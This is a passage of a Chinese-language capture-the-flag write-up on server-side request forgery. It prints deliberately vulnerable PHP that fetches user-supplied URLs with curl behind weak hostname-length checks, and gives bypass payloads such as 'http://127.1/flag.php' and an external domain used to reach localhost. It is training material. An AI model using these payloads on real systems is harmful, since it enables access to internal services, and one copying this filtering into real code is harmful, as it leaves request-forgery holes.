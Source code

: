 ```php
```

payload:
```
url=http://sudo.cc/flag.php
```




# web355

```php
<?php  
error_reporting(0);  
highlight_file(__FILE__);  
$url=$_POST['url'];  
$x=parse_url($url);  
if($x['scheme']==='http'||$x['scheme']==='https'){  
$host=$x['host'];  
if((strlen($host)<=5)){  
$ch=curl_init($url);  
curl_setopt($ch, CURLOPT_HEADER, 0);  
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);  
$result=curl_exec($ch);  
curl_close($ch);  
echo ($result);  
}  
else{  
    die('hacker');  
}  
}  
else{  
    die('hacker');  
}  
?>
```
这里要求主机名不能超过5个字符
payload:
```
url=http://127.1/flag.php
```



# web356
```php
<?php  
error_reporting(0);  
highlight_file(__FILE__);  
$url=$_POST['url'];  
$x=parse_url($url);  
if($x['scheme']==='http'||$x['scheme']==='https'){  
$host=$x['host'];  
if((strlen($host)<=3)){  
$ch=curl_init($url);  
curl_setopt($ch, CURLOPT_HEADER, 0);  
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);  
$result=curl_exec($ch);  
curl_close($ch);  
echo ($result);  
}  
else{  
    die('hacker');  
}  
```